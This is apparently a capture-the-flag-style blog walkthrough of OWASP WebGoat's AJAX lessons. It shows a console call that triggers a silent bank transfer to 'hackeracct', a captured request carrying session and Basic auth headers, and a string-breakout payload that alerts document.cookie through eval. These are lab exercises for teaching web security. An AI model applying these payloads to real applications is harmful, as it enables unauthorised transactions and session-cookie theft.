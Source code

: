 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 3 Continued (Continued)"
date:   2017-01-24 17:00:00 -0500
categories: webgoat
---
```

# AJAX Security Part 8: Silent Transaction Attacks
Instructions:

- This is a sample internet banking application - money transfer page.
- It shows below your balance, the account you are transferring to and amount you will transfer.
- The application uses AJAX to submit the transaction after doing some basic client side validations.
- Your goal is to try to bypass the user's authorization and silently execute the transaction.

Aha, client side validations. Sounds like we can mess with it, or at the very least read it and look for some exploitability. Nice! Let's take a look at the source.

In the HTML, we see the following code in the confirmation form:

```
<input onclick="processData();" id="confirm" value="Confirm" name="confirm" type="BUTTON">
```

Alright so there is a third-party function ```processData()``` being called when we want to send the request. Lets take a look at that function.

```
function processData(){
	var accountNo = document.getElementById('newAccount').value;
	var amount = document.getElementById('amount').value;
	if ( accountNo == ''){
		alert('Please enter a valid account number to transfer to.')
		return;
	}
	else if ( amount == ''){
		alert('Please enter a valid amount to transfer.')
		return;
	}
	 document.getElementById('confirm').value  = 'Transferring'
	submitData(accountNo, amount);
	document.getElementById('confirm').value  = 'Confirm'
	balanceValue = parseFloat(balanceValue) - parseFloat(amount);
	balanceValue = balanceValue.toFixed(2);
	document.getElementById('balanceID').innerHTML = balanceValue + '$';
}
```

Let's break it down. ```processData``` works by pulling the information for the account the money is being transferred to, and the amount of money to be transferred from the elements filled out on the page (as long as they are filled with some data). It then does a check to make sure you cannot transfer more money than you have in the account. If the transaction passes those checks, it calls another function ```submitData``` and passes it the destination account and the amount to transfer. Then ```processData``` continues on, adjusting the sender account's balance for the amount transferred.

So there are a lot of checks in ```processData``` to prevent any transfers that the user does not want to happen. Not to mention the initial confirmation button in the HTML that fires the function off. Its main job is to interact with the sender and update data about their balance and transactions. Kind of the opposite of "silent". Let's look at ```submitData```, the method that actually performs the transactions.

```
function submitData(accountNo, balance) {
	var url = 'attack?Screen=68&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=' + document.getElementById('confirm').value; 
	if (typeof XMLHttpRequest != 'undefined') {
		req = new XMLHttpRequest();
	} 
	else if (window.ActiveXObject) {
		req = new ActiveXObject('Microsoft.XMLHTTP');
	}
	req.open('GET', url, true);
	req.onreadystatechange = callback;
	req.send(null);
}
```

Hmm...not a confirmation, prompt, or check in sight! Well, let's see if we can call ```submitData``` directly from the console and bypass any user initiation or confirmation:

```
$submitData('hackeracct', 1000000)
```

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/silent-transaction.jpg">

Free money!!!

The real security implication here is that the ```submitData``` function actually sends a URL-formatted request to the server to perform this transaction:

```
GET /WebGoat/attack?Screen=68&menu=400&from=ajax&newAccount=hackeracct&amount=1000000&confirm=Confirm HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=68&menu=400
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
```

So a legitimate attack might look more like a phishing campaign to members of WebGoat bank that asks them to update some account information. And then...

# AJAX Security Part 9: Dangerous Use of Eval
Instructions:

- For this exercise, your mission is to come up with some input containing a script. You have to try to get this page to reflect that input back to your browser, which will execute the script. In order to pass this lesson, you must 'alert()' document.cookie.

Alright, so we're started off with a shopping cart and some credit card info

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-1.jpg">

When we go to purchase, the server responds with an alert that tells us whether the request went through or not. Enter our exploitable vector.

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-2.jpg">

Initially, without really thinking I tried a bunch of naive XSS inserts that didn't pop. Then I realized that I was trying to pop an alert inside of an alert, which didn't make much sense. So let's think about this more logically. If we enter an incorrect PIN, the document generates an alert that looks something like this:

```
alert('Whoops: You entered an incorrect access code of "' + document.form.field1 + '"')
```

Maybe we can break out of the alert and append another? Similar to the mechanism for HTTP Response Splitting. Let's give it a shot with:

```
fail"');alert(document.cookie
```

This almost worked, but we received:

```
alert('Whoops: You entered an incorrect access code of "fail");alert(document.cookie");
```

Aha, right we forgot about the closed string. Let's try to tack on another alert on the end?

```
fail"');alert(document.cookie);alert('"filler
```

Now everything is properly escaped, and we get three alerts, of which the second is:

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-3.jpg">

Success! Definitely not too subtle with three alerts, but we pop the cookie!